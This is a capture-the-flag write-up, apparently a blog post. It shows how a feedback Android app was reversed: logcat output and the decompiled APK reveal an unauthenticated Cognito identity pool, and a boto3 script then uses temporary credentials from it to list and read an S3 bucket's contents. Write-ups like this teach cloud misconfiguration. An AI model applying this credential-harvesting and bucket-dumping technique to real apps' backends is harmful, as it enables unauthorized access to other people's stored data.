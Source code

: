 ## The AWS exploit
```
Will has been tasked with collecting feedbacks for the CTF. Instead of using online form he made this app as he wanted to get his hands dirty with App dev and DevOps.
[Link to download app]
Category: Reversing
```
This one took a while because no one in our team had resources for APK decompilation. One of our team members had ADB `logcat` and that is where we discovered the first chunk of information, as to insight into what the challenge is all about. To be quite honest, this problem had one of the least intuitive and beginner-friendly solutions and required quite a lot of intricate AWS knowledge. If you have worked with certain AWS SDK features or something like [flaws.cloud](https://flaws.cloud), this might be easy, but otherwise, I felt this was extremely restrictive.

Using `logcat`, we can see what the app is doing once we press "Send feedback":
```
2020-12-19 01:38:44.558 8550-9744/? D/AmazonS3Client: Key: feedback/.json; Request: PUT https://<...>.s3.ap-south-1.amazonaws.com /feedback/.json 
2020-12-19 01:38:44.559 8550-9744/? D/KeyProvider23: AndroidKeyStore contains keyAlias com.amazonaws.mobile.client.aesKeyStoreAlias
2020-12-19 01:38:44.559 8550-9744/? D/KeyProvider23: Loading the encryption key from Android KeyStore.
2020-12-19 01:38:44.561 8550-9744/? D/KeyProvider23: AndroidKeyStore contains keyAlias com.amazonaws.mobile.client.aesKeyStoreAlias
2020-12-19 01:38:44.561 8550-9744/? D/KeyProvider23: Loading the encryption key from Android KeyStore.
2020-12-19 01:38:44.563 8550-9744/? D/KeyProvider23: AndroidKeyStore contains keyAlias com.amazonaws.mobile.client.aesKeyStoreAlias
2020-12-19 01:38:44.563 8550-9744/? D/KeyProvider23: Loading the encryption key from Android KeyStore.
2020-12-19 01:38:44.577 8550-9744/? D/KeyProvider23: AndroidKeyStore contains keyAlias com.amazonaws.mobile.client.aesKeyStoreAlias
2020-12-19 01:38:44.578 8550-9744/? D/KeyProvider23: Loading the encryption key from Android KeyStore.
2020-12-19 01:38:44.578 8550-9744/? D/AWSMobileClient: Inspecting user state details
2020-12-19 01:38:44.580 8550-9744/? D/AWSMobileClient: waitForSignIn: userState:GUEST
2020-12-19 01:38:44.580 8550-9744/? D/KeyProvider23: AndroidKeyStore contains keyAlias com.amazonaws.android.auth.aesKeyStoreAlias
2020-12-19 01:38:44.580 8550-9744/? D/KeyProvider23: Loading the encryption key from Android KeyStore.
2020-12-19 01:38:44.593 8550-9744/? D/KeyProvider23: AndroidKeyStore contains keyAlias com.amazonaws.mobile.client.aesKeyStoreAlias
2020-12-19 01:38:44.593 8550-9744/? D/KeyProvider23: Loading the encryption key from Android KeyStore.
2020-12-19 01:38:44.606 8550-9744/? D/AWS4Signer: AWS4 Canonical Request: '"PUT
    /feedback/.json
    
    content-md5:ArXoeuja4WV6fSZ9+AW9jQ==
    host:<...>.s3.ap-south-1.amazonaws.com
    x-amz-content-sha256:STREAMING-AWS4-HMAC-SHA256-PAYLOAD
    x-amz-date:20201218T200844Z
    x-amz-decoded-content-length:33
    x-amz-security-token:<...truncated...>"
```
Simply put, the app is PUTing our feedback as a `feedback.json` file to S3. Any requests except `POST` gave us `AccessDenied` so it was clear that the ACL was strict, making a `POST` however kept having weird validation, and even after we met the requirements, the server gave the same validation error. Eventually, I abandoned this attack surface.

### Reversing the app
This was very annoying because we didn't have the resources, so I started by installing mobSF and Genymotion, the app looks great and all and also does a lot of security analysis, such as searching for trackers and malware - but in this case, it was (almost) pointless. There was nothing in the Java files and Genymotion *just* ***didn't*** *work*.

I then proceeded to use an online decompiler at [decompiler.com](https://www.decompiler.com) which is a typical JADX compiler and I was able to access the `resources` folder (as well as the Java files) which had what I believed to be was necessary for the exploit to work. The funny bit was that despite having opened the same file the previous day, I never realized that they were *usable* credentials. In the resources folder, we see a `res` folder, with a `raw/awsconfiguration.json` file:
```json
{
"CredentialsProvider": {
  "CognitoIdentity": {
    "Default": {
      "PoolId": "ap-south-1:<...>",
      "Region": "ap-south-1"
    }
  }
},
  "S3TransferUtility": {
    "Default": {
      "Bucket": "<...>",
      "Region": "ap-south-1"
    }
  }
}
```
After reading a bit up on AWS theory (yes, really...), we figured that the Cognito Identification Pool **has** to be *unauthenticated* because there were no other credentials being exchanged, so the key was to get an ID from our ID Pool, exchange it for STS tokens and use those credentials to access the S3. While I was exactly right in this case, I still wonder what would happen if I wasn't, but anyway. 🤷‍♂️

I started working on a Node script and built something from sample code to generate the required credentials, and as expected, Cognito was giving us proper access tokens, where it failed was retrieving resources from S3 because of CORS. And while I was going bonkers, a teammate wrote a script with `boto3` to do this. Oh also, I don't know how to write Node.js, so probably that was the problem.
```python
from boto3.session import Session
from io import BytesIO

ACCESS_KEY='ASIAKEY'
SECRET_KEY='mfXpSECRETKEYkZGTOonrJ'
SESSION_KEY = 'IQoJb3JpZSSESSIONKEYzWZg'

session = Session(aws_access_key_id=ACCESS_KEY,
                  aws_secret_access_key=SECRET_KEY,
                  aws_session_token=SESSION_KEY)
s3 = session.resource('s3')
your_bucket = s3.Bucket('<...>')

for obj in your_bucket.objects.all():
    key = obj.key
    body = obj.get()['Body'].read()
    print(body)
```
We can then see the very first item in the S3 is the flag:

![](https://dev-to-uploads.s3.amazonaws.com/i/smxul28iu96w264t6idl.png)

And we retrieve the flag - `mlh{th1s_i5_why_i_d0nt_l1k3_devops}`. 🚀
